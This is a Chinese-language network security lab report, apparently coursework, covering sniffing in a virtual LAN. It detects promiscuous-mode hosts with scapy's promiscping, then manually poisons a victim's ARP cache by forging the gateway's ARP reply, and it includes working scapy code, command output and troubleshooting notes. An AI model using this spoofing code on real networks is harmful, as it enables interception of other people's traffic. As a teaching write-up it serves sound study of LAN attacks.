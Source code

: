 # 第四章实验 网络监听

### 网络拓扑

![](/img/0x04_a.png)

* 网关：
  * 172.16.222.1
  * 08:00:27:36:d3:2a  /  enp0s10
  * ![](/img/0x04_1.png)
* 攻击者：
  * 172.16.222.111
  * 08:00:27:0e:34:8d  /  eth0
  * ![](/img/0x04_2.png)
* 受害者：
  * 172.16.222.101
  * 08:00:27:1d:d1:d3  /  enp0s3
  * ![](/img/0x04_3.png)



### 实验准备

* 在攻击者主机上安装scapy（Linux）

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```



### 实验一：检测局域网中的异常终端

​	检查受害者主机是否开启混杂模式，需要注意的是，结果中并没有PROMISC字符串

```bash
ip link show enp0s3
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
     link/ether 08:00:27:1d:d1:d3 brd ff:ff:ff:ff:ff:ff
```

​	在攻击者主机上进入scapy，并在 scapy 的交互式终端输入以下代码回车执行

```python
pkt = promiscping("172.16.222.101")
```

> promiscping的作用是：Send ARP who-has requests to determine which hosts are in promiscuous mode，即发送ARP请求以确定哪些主机处于混杂模式

​	此时的输出结果为下所示

```python
>>> pkt = promiscping("172.16.222.101")
---------------------------------------------------------------------------
PermissionError                           Traceback (most recent call last)
<ipython-input-1-13d733bc8cc2> in <module>
----> 1 pkt = promiscping("172.16.222.101")

/usr/lib/python3/dist-packages/scapy/layers/l2.py in promiscping(net, timeout, fake_bcast, **kargs)                                                       
    670     """Send ARP who-has requests to determine which hosts are in promiscuous mode
    671     promiscping(net, iface=conf.iface)"""
--> 672     ans, unans = srp(Ether(dst=fake_bcast) / ARP(pdst=net),
    673                      filter="arp and arp[7] = 2", timeout=timeout, iface_hint=net, **kargs)  # noqa: E501
    674     ans = ARPingResult(ans.res, name="PROMISCPing")

/usr/lib/python3/dist-packages/scapy/sendrecv.py in srp(x, promisc, iface, iface_hint, filter, nofilter, type, *args, **kargs)                            
    550     if iface is None and iface_hint is not None:
    551         iface = conf.route.route(iface_hint)[0]
--> 552     s = conf.L2socket(promisc=promisc, iface=iface,
    553                       filter=filter, nofilter=nofilter, type=type)   
    554     result = sndrcv(s, x, *args, **kargs)

/usr/lib/python3/dist-packages/scapy/arch/linux.py in __init__(self, iface, type, promisc, filter, nofilter, monitor)                                     
    396                 "The 'monitor' argument has no effect on native linux sockets."                                                                   
    397             )
--> 398         self.ins = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(type))  # noqa: E501
    399         if not nofilter:
    400             if conf.except_filter:

/usr/lib/python3.9/socket.py in __init__(self, family, type, proto, fileno)
    230             if proto == -1:
    231                 proto = 0
--> 232         _socket.socket.__init__(self, family, type, proto, fileno)
    233         self._io_refs = 0
    234         self._closed = False

PermissionError: [Errno 1] Operation not permitted
```

​	显然这是错误的，查阅资料得知此操作需要root权限，退出scapy并`sudo scapy`进入，重新键入代码得到结果：

```python
>>> pkt = promiscping("172.16.222.101")
Begin emission:
Finished sending 1 packets.

Received 0 packets, got 0 answers, remaining 1 packets
```

​	此时，回到受害者主机上，输入以下代码启动网卡混杂模式，并再次重复第一步确认是否开启成功：

```bash
sudo ip link set enp0s3 promisc on
```

![](/img/0x04_4.png)

​	如图，成功开启受害者主机网卡的混杂模式。让我们回到攻击者主机上的 scapy 交互式终端继续执行命令，观察两次命令的输出结果差异。

```python
>>> pkt = promiscping("172.16.222.101")
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
  08:00:27:1d:d1:d3 PcsCompu 172.16.222.101
```

​	很显然，在受害者主机上打开网卡混杂模式后，攻击者的promiscping操作得到了正常的回应，返回结果是受害者主机的MAC地址和IP地址。

​	在受害者主机上用`sudo ip link set enp0s3 promisc off`命令来手动关闭该网卡的「混杂模式」。



### 实验二 手工单步“毒化”目标主机的 ARP 缓存

​	以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![](/img/0x04_5.png)

```python
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
# 结果
# >>> recved = srp(arpbroadcast, timeout=2)
# Begin emission:
# Finished sending 1 packets.
# *
# Received 1 packets, got 1 answers, remaining 0 packets

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.222.101
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.101", hwdst="08:00:27:0e:34:8d")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

​	如下图：

![](/img/0x04_6.png)

​	此时在受害者主机上查看 ARP 缓存，发现靶机并没有任何变化，按道理来说应该成功毒化了才对

![](/img/0x04_7.png)

​	在靶机上用`tcpdump`进行抓包实验，发现根本什么都收不到

![](/img/0x04_8.png)

​	我联想到[视频](https://www.bilibili.com/video/BV1CL41147vX?p=37)中似乎有类似的问题，所以尝试将sendp改为send，效果显著

![](/img/0x04_9.png)

​	可以看到，受害者主机立刻就有了反应，但是在第一次尝试后，还是投毒失败。在终端上实时监视时可以看到在抓包时，上图中红框部分，前半部分在我们投毒时几乎立即有了反应，但后半部分过了一段时间才出现，此时立即结束抓包并检查ARP目录，发现投毒失败，推测可能是Debian系统每隔一段时间就会在后台向网关确定MAC地址是否有变化。

​	立即再次在攻击者主机上发送投毒包，来受害者主机上查看，一段时间内（绿框）受害者主机被成功毒化，但是一段时间后MAC地址又会变为正常（黄框），基本确定我的假设。



### 参考链接

[ARP Cache Poisoning using Scapy](https://medium.datadriveninvestor.com/arp-cache-poisoning-using-scapy-d6711ecbe112)

[Linux操作系统中删除ARP缓存的命令](https://cloud.tencent.com/developer/article/1009956?from=14588)
